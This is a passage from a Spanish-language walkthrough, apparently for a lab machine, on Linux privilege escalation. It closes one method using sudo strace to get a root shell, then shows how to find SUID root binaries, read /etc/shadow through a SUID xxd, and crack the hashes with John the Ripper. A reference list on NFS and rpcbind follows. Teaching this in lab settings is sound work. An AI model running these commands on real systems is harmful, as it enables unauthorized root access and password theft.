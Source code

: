 4. Ahora para ejecutarlo es de esta manera:
```
$ sudo strace ./root.out 2>/dev/null
```
5. Y ya con esto ingresamos como root

## Tercera forma de elevar privilegios

1. otra forma es colocar esto:
```
$ find / -type f -user root -perm /u+s -ls 2>/dev/null | grep -v snap
```
2. Si el resultado de la intrucción del paso 1 es esto:
```
-rwsr-x--- root itservices /usr/bin/xxd
```
3. podemos estonces ejecutar esto:
```
$ xxd -p /etc/shadow | xxd -p -r
```
4. El comando del paso 3 lo anterior nos permite ver los hashes de del archivo “/etc/shadow”
5. Solo quedaria decifrarlos con “john the ripper” asì:
```
$ john --format=crypt --show hashes.txt
```

## Investigación

https://nvd.nist.gov/vuln/detail/CVE-1999-0170

https://nvd.nist.gov/vuln/detail/CVE-1999-0211

https://nvd.nist.gov/vuln/detail/CVE-1999-0554

https://www.google.com/search?client=firefox-b-e&q=que+es+nfs

https://www.youtube.com/watch?v=Q-v3JifGo4U

https://blog.christophetd.fr/write-up-vulnix/

https://docs.oracle.com/cd/E24842_01/html/E22524/rfsrefer-13.html

https://docs.oracle.com/cd/E56339_01/html/E53865/gnilj.html

http://fraterneo.blogspot.com/2014/06/permitir-nfs-a-traves-de-iptables.html

https://vuldb.com/es/?id.2949

https://www.google.com/search?client=firefox-b-e&q=que+es+rpcbind

https://www.linuxito.com/nix/591-como-se-relacionan-nfsd-nfsuserd-mountd-y-rpcbind

http://linux.dokry.com/qu-hace-exactamente-rpcbind.html

https://laseguridad.online/questions/7218/riesgo-de-seguridad-de-abrir-el-puerto-111-rpcbind

https://linux.die.net/man/8/rpcbind

https://www.ediciones-eni.com/open/mediabook.aspx?idR=2526abba8f17ae4bfa14e90e3e445a00
